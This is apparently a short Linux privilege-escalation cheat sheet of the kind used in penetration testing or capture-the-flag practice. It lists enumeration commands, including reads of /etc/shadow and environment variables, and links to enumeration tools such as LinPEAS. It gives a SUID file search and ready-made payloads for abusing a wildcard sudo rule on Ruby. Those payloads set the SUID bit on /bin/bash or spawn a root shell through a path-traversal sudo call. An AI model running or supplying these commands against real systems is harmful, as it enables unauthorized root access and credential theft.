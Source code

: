 ### OS and basics
```
hostname
history
uname -a
cat /proc/version
cat /etc/issue
cat /etc/passwd
cat /etc/shadow
ps axjf
ps aux
env
```

LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker

### SUID / GUID
```
find / -type f -perm -u=s 2>/dev/null
ls <path_to_file>
  -xr-x 1 root root 320160 Feb 18  2020 /bin # mean we can run file as root
  find with GTFObin SUID
```

### SUDO
```
sudo -l
(ALL) NOPASSWD: /usr/bin/ruby /root/*.rb # wildcards means we can manipulate the path

Set payload
1. echo '`chmod u+s /bin/bash`' > /tmp/shell.rb
2. echo 'exec "/bin/sh"' > /tmp/shell.rb
3. echo 'system("/bin/bash")' > evil.rb # i like this one

sudo /usr/bin/ruby /root/../tmp/shell.rb
bash -p # run with priv mode ignore ENV
```

# Network
```
ip route
ip a
netstat -at # tcp
netstat -au # udp
netstat -ano # Display all sockets, Do not resolve names, Display timers
```